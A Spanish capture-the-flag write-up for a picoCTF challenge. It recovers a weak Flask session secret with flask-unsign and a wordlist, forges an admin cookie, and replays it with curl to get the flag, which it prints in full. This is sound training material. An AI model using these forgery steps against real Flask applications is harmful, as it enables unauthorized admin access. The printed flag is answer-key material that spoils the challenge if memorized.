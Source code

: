 ## Descripción
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/60f76192f6e1fea6f4e6e8c5fc9a6a27/server.py) [http://mercury.picoctf.net:44693/](http://mercury.picoctf.net:44693/)

## Solución
Se presenta la misma página web donde se envían cookies flask
Con ayuda de burpsuite se aprecia que se envían las cookies cifradas, cuando se descifran desde base 64 se aprecia lo siguiente: `{"very_auth":"snickerdoodle"}`
Entonces ahora lo que hay que hacer es que con ayuda del script py donde se tienen las galletas se debe iterar por renglones y usar la herramienta flask unsign
Se ingresa el siguiente comando en la terminal
```
flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z_DZcw.vN744w-0M44yaR1dxcNIVHUG0vI" --wordlist cookies.txt```
```
Da como resultado `butter`
Se hace la nueva cookie con el siguiente comando
```
flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret "butter"
```
Se obtiene la cookie `eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z_DaZw.K7GrdW1fYU_ClMI9TFVytRmHuYs`
Se hace por ultimo un curl
```
curl -s http://mercury.picoctf.net:44693/display -H "Cookie: session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z_DaZw.K7GrdW1fYU_ClMI9TFVytRmHuYs"
```
Y se obtiene la respuesta con la bandera

```
picoCTF{pwn_4ll_th3_cook1E5_dbfe90bf}
```
